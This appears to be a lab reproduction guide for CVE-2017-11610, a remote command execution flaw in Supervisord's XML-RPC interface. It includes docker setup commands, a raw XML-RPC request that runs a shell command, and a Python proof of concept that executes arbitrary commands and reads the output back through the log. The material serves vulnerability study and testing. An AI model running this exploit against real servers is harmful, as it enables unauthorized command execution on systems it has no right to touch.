


Supervisord XML-RPC Remote Command Execution (CVE-2017-11610)¶
Supervisord is a process control system for Unix-like operating systems.
In the supervisor version before 3.0.1, 3.1.x before 3.1.4, 3.2.x before 3.2.4, and 3.3.x before 3.3.3, a remote code execution vulnerability exists in its XML-RPC interface, which allows attackers to execute arbitrary commands through specially crafted XML-RPC requests.
References:
- https://www.leavesongs.com/PENETRATION/supervisord-RCE-CVE-2017-11610.html
- https://blogs.securiteam.com/index.php/archives/3348
- https://github.com/Supervisor/supervisor/commit/90c5df80777bfec03d041740465027f83d22e27b
Environment Setup¶
Execute the following commands to start Supervisord 3.3.2:
docker compose build
docker compose up -d
After the server starts, you can access the Supervisord interface at http://your-ip:9001.
Vulnerability Reproduction¶
Send the following request to the XML-RPC interface, and the command will be executed:
POST /RPC2 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 213
<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.warnings.linecache.os.system</methodName>
<params>
<param>
<string>touch /tmp/success</string>
</param>
</params>
</methodCall>

POC with Direct Output¶
@Ricter proposed an effective approach on Weibo: write the command execution results to a log file, then use Supervisord's built-in readLog method to read the log file and retrieve the results.
Here's a simple POC poc.py:
#!/usr/bin/env python3
import xmlrpc.client
import sys
target = sys.argv[1]
command = sys.argv[2]
with xmlrpc.client.ServerProxy(target) as proxy:
old = getattr(proxy, 'supervisor.readLog')(0,0)
logfile = getattr(proxy, 'supervisor.supervisord.options.logfile.strip')()
getattr(proxy, 'supervisor.supervisord.options.warnings.linecache.os.system')('{} | tee -a {}'.format(command, logfile))
result = getattr(proxy, 'supervisor.readLog')(0,0)
print(result[len(old):])
Execute with Python3 to get the results: ./poc.py "http://your-ip:9001/RPC2" "command"：
